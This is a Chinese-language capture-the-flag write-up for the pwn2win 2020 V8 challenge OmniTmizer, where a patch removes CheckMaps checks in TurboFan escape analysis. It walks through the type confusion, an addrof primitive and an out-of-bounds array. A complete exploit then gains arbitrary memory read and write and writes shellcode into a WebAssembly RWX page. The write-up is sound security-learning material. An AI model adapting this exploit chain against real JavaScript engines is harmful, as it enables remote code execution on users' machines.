



# pwn2win CTF OmniTmizer

最近复现了一些v8的CVE，想找一题v8相关的CTF题目来试一试自己能不能独立的写出exp来，于是想了想就找到了当时瞎几把复现的题目：OmniTmizer，一道与turbofan JIT的escape analysis相关的题目

## 题目分析

先来看看patch：

```cpp
https://github.com/v8/v8/tree/50dd84ca317ae35c926ed34d001a72b62aea6662
diff --git a/src/compiler/escape-analysis.cc b/src/compiler/escape-analysis.cc
index b3f684ea61..ae2cbdabca 100644
--- a/src/compiler/escape-analysis.cc
+++ b/src/compiler/escape-analysis.cc
@@ -726,29 +726,8 @@ void ReduceNode(const Operator* op, EscapeAnalysisTracker::Scope* current,
       break;
     }
     case IrOpcode::kCheckMaps: {
-      CheckMapsParameters params = CheckMapsParametersOf(op);
-      Node* checked = current->ValueInput(0);
-      const VirtualObject* vobject = current->GetVirtualObject(checked);
-      Variable map_field;
-      Node* map;
-      if (vobject && !vobject->HasEscaped() &&
-          vobject->FieldAt(HeapObject::kMapOffset).To(&map_field) &&
-          current->Get(map_field).To(&map)) {
-        if (map) {
-          Type const map_type = NodeProperties::GetType(map);
-          if (map_type.IsHeapConstant() &&
-              params.maps().contains(
-                  map_type.AsHeapConstant()->Ref().AsMap().object())) {
-            current->MarkForDeletion();
-            break;
-          }
-        } else {
-          // If the variable has no value, we have not reached the fixed-point
-          // yet.
-          break;
-        }
-      }
-      current->SetEscaped(checked);
+      //OmniTmizer - Improving performance
+      current->MarkForDeletion();
       break;
     }
     case IrOpcode::kCompareMaps: {

```

patch中给了commit id，先编译一个一样的没打补丁的版本：

```
git reset --hard 50dd84ca317ae35c926ed34d001a72b62aea6662
gclient sync
tools/dev/v8gen.py  x64.debug
ninja -C out.gn/x64.debug d8
```

可以看到该patch是打在src/compiler/escape-analysis.cc的ReduceNode函数，先找找是谁调用了该函数

先从src/compiler/pipeline.cc开始找起：

```cpp
bool PipelineImpl::OptimizeGraph(Linkage* linkage) {
  // [..........]

  if (FLAG_turbo_escape) {
    Run<EscapeAnalysisPhase>();
    if (data->compilation_failed()) {
      info()->AbortOptimization(
          BailoutReason::kCyclicObjectStateDetectedInEscapeAnalysis);
      data->EndPhaseKind();
      return false;
    }
    RunPrintAndVerify(EscapeAnalysisPhase::phase_name());
  }
  // [.......................]
}
```

`Run<EscapeAnalysisPhase>()`函数会调用到`EscapeAnalysisPhase::Run`：

```cpp
struct EscapeAnalysisPhase {
  DECL_PIPELINE_PHASE_CONSTANTS(EscapeAnalysis)

  void Run(PipelineData* data, Zone* temp_zone) {
    EscapeAnalysis escape_analysis(data->jsgraph(),
                                   &data->info()->tick_counter(), temp_zone);
    escape_analysis.ReduceGraph();	// [1]
    GraphReducer reducer(temp_zone, data->graph(),
                         &data->info()->tick_counter(),
                         data->jsgraph()->Dead());
    EscapeAnalysisReducer escape_reducer(&reducer, data->jsgraph(),
                                         escape_analysis.analysis_result(),
                                         temp_zone);
    AddReducer(data, &reducer, &escape_reducer);
    reducer.ReduceGraph();
    // TODO(tebbi): Turn this into a debug mode check once we have confidence.
    escape_reducer.VerifyReplacement();
  }
};
```

`EscapeAnalysisPhase::Run`函数会先在[1]处对graph进行一次reduce：

```cpp
// EscapeAnalysisPhase 继承自EffectGraphReducer，reduce函数使用的是EscapeAnalysis::Reduce（从构造函数中可以得知）
// src/compiler/escape-analysis.cc
void EscapeAnalysis::Reduce(Node* node, Reduction* reduction) {
  const Operator* op = node->op();
  TRACE("Reducing %s#%d\n", op->mnemonic(), node->id());

  EscapeAnalysisTracker::Scope current(this, tracker_, node, reduction);
  ReduceNode(op, &current, jsgraph());	// [2]
}
```

[2]处的ReduceNode就是被打patch的函数

### 初次尝试

为了查看被打patch的函数对kCheckMaps的行为，一开始写了个如下的测试代码：

```javascript
function foo(a){
    let zoo = {x:3};
    return a.x + zoo.x;
}

var bar = {
    x : 1,
    y : 2
};

for(var i = 0;i < 10000;i++)
    foo(bar);

console.log(foo(bar));
```

查看生成的graph：



在和打了patch的版本进行对比：



可以看到打了patch的版本的CheckMaps节点被删除了，回到打了patch之后的代码：

```cpp
     case IrOpcode::kCheckMaps: {
       //OmniTmizer - Improving performance
       current->MarkForDeletion();
       break;
     }

///////////////////////////////////////////////////////////////////////////
void MarkForDeletion() { SetReplacement(tracker_->jsgraph_->Dead()); }

void SetReplacement(Node* replacement) {
      replacement_ = replacement;
      vobject_ =
          replacement ? tracker_->virtual_objects_.Get(replacement) : nullptr;
      if (replacement) {
        TRACE("Set %s#%d as replacement.\n", replacement->op()->mnemonic(),
              replacement->id());
      } else {
        TRACE("Set nullptr as replacement.\n");
      }
    }   
```

markForDeletion会把当前节点替换成Dead节点，在这里是等同于把CheckMaps节点删除了

CheckMaps节点一般是用来保证对象的Map不会发生变化，如果发生变化了就进行deopt，这里在EscapeAnalysis阶段把CheckMaps给删除了，那是不是说我们可能可以类型混淆了


一开始我试了个这个：

```javascript
function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    return a.x;
}

var bar = {
    x : 1,
    y : 2
};

var zoo = [1.1,2.2,3.3,4.4];

for(var i = 0;i < 60000;i++)
    foo(bar);
console.log(foo(zoo));
```

运行了下：

```cpp
PS D:\shared\pwn2win_2020\pwn-OmniTmizer\files\x64.release> .\d8.exe  .\test.js
4
```

我猜是zoo的length，因为从上面的LoadField[+12]，而Array对象的+12处偏移（开启了指针压缩）正是length，也就是4

再改改zoo的长度，看看输出：

```cpp
// var zoo = [1.1,2.2,3.3,4.4,5.5];

PS D:\shared\pwn2win_2020\pwn-OmniTmizer\files\x64.release> .\d8.exe  .\test.js
5
```

猜测正确

### addrof

那我们可以直接根据上面的代码改一改，构造一个addrof原语：

```javascript
function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    return a[0];
}

var zoo = [1.1,2.2,3.3,4.4,5.5];
var bar = [zoo,zoo,zoo,zoo];

%DebugPrint(zoo);

for(var i = 0;i < 60000;i++)
    foo(zoo);
console.log(foo(bar));
```

输出：

```cpp
PS D:\shared\pwn2win_2020\pwn-OmniTmizer\files\x64.release> .\d8.exe  --allow-natives-syntax .\test.js
DebugPrint: 0000033A080855D5: [JSArray]
// [.......................................]
5.757981678926115e-270
```

转换一下最后的输出：

```cpp
>>> hex(struct.unpack("<q",struct.pack("<d",5.757981678926115e-270))[0])
'0x80855d5080855d5'
```

可以看到我们成功的把zoo的地址泄露了出来，嘿嘿

封装一下：

```javascript
var format_buffer = new ArrayBuffer(16);
var float64 = new Float64Array(format_buffer);
var bigUint64 = new BigUint64Array(format_buffer);

function f2i(f){
    float64[0] = f;
    return bigUint64[0];
}

function i2f(i){
    bigUint64[0] = i;
    return float64[0];
}

function hex(value){
    return "0x" + value.toString(16);
}

var zoo = [1.1,2.2,3.3,4.4,5.5];
var bar = [zoo,zoo,zoo,zoo];

function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    return a[0];
}

for(var i = 0;i < 60000;i++)
    foo(zoo);

function addrof(obj){
    bar[0] = obj;
    let addr = f2i(foo(bar));
    return addr & 0xffffffffn;
}

var test_obj = {x:1,y:2};
%DebugPrint(test_obj);

console.log(hex(addrof(test_obj)));
```

想要伪造一个对象，我们需要泄露出相对应对象的map，但是前面的addrof只能泄露变量的地址，做不到泄露出对象的map

这里卡住了，，，

思来想去，想到一开始我们不是把Array.length当作a.x返回了，那我直接写它是不是等于把Array.length直接给改了，带着这个思路：

```javascript
function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    a.x = 30;
}

var bar = {
    x : 1,
    y : 2
};

var zoo = [1.1,2.2,3.3,4.4];
var leakme = [6.6,7.7,8.8,9.9];

for(var i = 0;i < 60000;i++)
    foo(bar);
foo(zoo);
console.log(zoo.length);
for(var i = 0;i < zoo.length;i++){
    console.log(zoo[i]);
}
```

输出：



还真可以，那就等于是越界了，那就不搞addrof和fakeobj，直接去写ArrayBuffer的backing_store岂不美滋滋

带着这个思路，我们在oob的数组后面分配ArrayBuffer和BigUint64Array（用于泄露external_pointer），修改ArrayBuffer的backing_store来达到任意地址读写的目的，最后exp：

```javascript
var format_buffer = new ArrayBuffer(16);
var float64 = new Float64Array(format_buffer);
var bigUint64 = new BigUint64Array(format_buffer);

var shellcode = [0x90909090,0x90909090,0xcccccccc,0x90909090]; 
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;

function force_gc() {
    for (var i = 0; i < 0x20; ++i) {
        var a = new ArrayBuffer(0x800000);
    }
}

function f2i(f){
    float64[0] = f;
    return bigUint64[0];
}

function i2f(i){
    bigUint64[0] = i;
    return float64[0];
}

function hex(value){
    return "0x" + value.toString(16);
}

class LeakArrayBuffer extends ArrayBuffer {
    constructor(size){
        super(size);
        this.slot = 0xb33f;
    }
}

var corrupt_arr = [1.1,2.2,3.3,4.4,5.5];
var uint64array = new BigUint64Array(2);        // for leak external_pointer   
var padding = {};
var target_buffer = new LeakArrayBuffer(0x1000);
var target_view = new DataView(target_buffer);
var bar = {x : 1,y : 2};

function foo(a){
    let x = 1;
    let y = 1.1;
    x += 1;
    y += 2.2;
    a.x = 400;
}


for(var i = 0;i < 60000;i++)
    foo(bar);

foo(corrupt_arr);
// now corrupt_arr is oob Array!
var external_pointer = f2i(corrupt_arr[corrupt_arr.indexOf(i2f(0x10n)) + 2]) - 7n;
var slot_idx = corrupt_arr.indexOf(i2f(0x1667e00000000n));
var backing_store_idx = slot_idx - 4;
console.log("[+] external_pointer: " + hex(external_pointer));

function objToPtr(obj){
    target_buffer.slot = obj;
    let ptr = (f2i(corrupt_arr[slot_idx]) >> 32n) - 1n;
    target_buffer.slot = 0xb33f;
    return ptr;
}

function ptrToObj(ptr){
    corrupt_arr[slot_idx] = i2f((ptr | 1n) << 32n);
    let obj = target_buffer.slot;
    target_buffer.slot = 0xb33f;
    return obj;
}

function getUint64(address){
    corrupt_arr[backing_store_idx] = i2f(address);
    return target_view.getBigUint64(0,true);
}

function setUint64(address,value){
    corrupt_arr[backing_store_idx] = i2f(address);
    target_view.setBigUint64(0,value,true);
}

function setUint32(address,value){
    corrupt_arr[backing_store_idx] = i2f(address);
    target_view.setUint32(0,value,true);
}

var wasm_instance_addr = objToPtr(wasmInstance) + external_pointer;
var rwx_page_addr = getUint64(wasm_instance_addr + 0x68n);
console.log("[+] wasm_instance_addr: " + hex(wasm_instance_addr));
console.log("[*] rwx_page_addr : 0x" + rwx_page_addr.toString(16));

// copy shellcode 
for(let i = 0;i < shellcode.length;i++){
    setUint32(rwx_page_addr + BigInt(i*4),shellcode[i]);
}

f();
```

## 后记

其实这题和EscapeAnalysis阶段的操作好像没什么相关的，感觉只是借这个阶段来把checkMaps节点来消除。

我后面去看了下别人的分析文章，发现Array对象的前2个内存布局（map，property）居然可以硬编码，orz，这样就不用想尽脑汁去泄露map了

## 参考资料

Escape Analysis in V8 ：https://www.youtube.com/watch?v=KiWEWLwQ3oI&t=744s

2020 Pwn2Win OmniTmizer Challenge：https://yichenchai.github.io/blog/omnitmizer